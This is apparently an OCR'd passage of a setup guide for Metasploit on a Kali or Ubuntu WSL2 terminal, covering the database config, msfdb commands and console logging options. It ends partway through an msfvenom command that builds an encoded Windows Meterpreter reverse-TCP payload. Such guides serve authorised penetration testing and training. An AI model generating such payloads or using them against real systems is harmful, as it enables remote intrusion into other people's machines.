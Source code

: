 port: 5432
host: "localhost"
pool: 256
timeout: 5

production:
adapter: "postgresql"
database: "msf_database"
username: "msf_user"
password: "password"
port: 5432
host: "localhost"
pool: 256
timeout: 5
```
# Start the database
```
db_connect -y /etc/metasploit/config/database.yml
```

# To copy database.yml to the .msf4 folder, run the following command:
```
cp /etc/framework/config/database.yml /root/.msf4/
```

# Usage: msfdb [options] example: msfdb start

Options:
* Execute msfdb --help for the complete usage information
Commands:
* init - initialize the component
* reinit - delete and reinitialize the component
* delete - delete and stop the component
* status - check component status
* start - start the component
* stop - stop the component
* restart - restart the component

# Restart your terminal 
- Assuming you are using ubuntu or kali WSL2 terminal, set up metasploit-framework and have started `msfconsole` & `msfdb status` shows connection
- lets configure some options to add functionality to metasploits
* NOTE: LHOST=YOUR_LOCAL_IP, 
- open powershell type: ipconfing, your IP = IPv4 Address
- open kali / ubuntu type: ifconfig your IP = inet

# changing default options

``` 
set ConsoleLogging true
set LogLevel 5
set SessionLogging true
set TimestampOutput true
set PROMPT %T S:%S J:%J L:%L H:%H D:%D U:%U
```

# making sure you can get a session

```set ExitOnSession false``` 

# configure client side attacks
- This will create a single exe file which it will establish multiple connections:

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/shikata_ga_nai
LHOST=192.168.1.103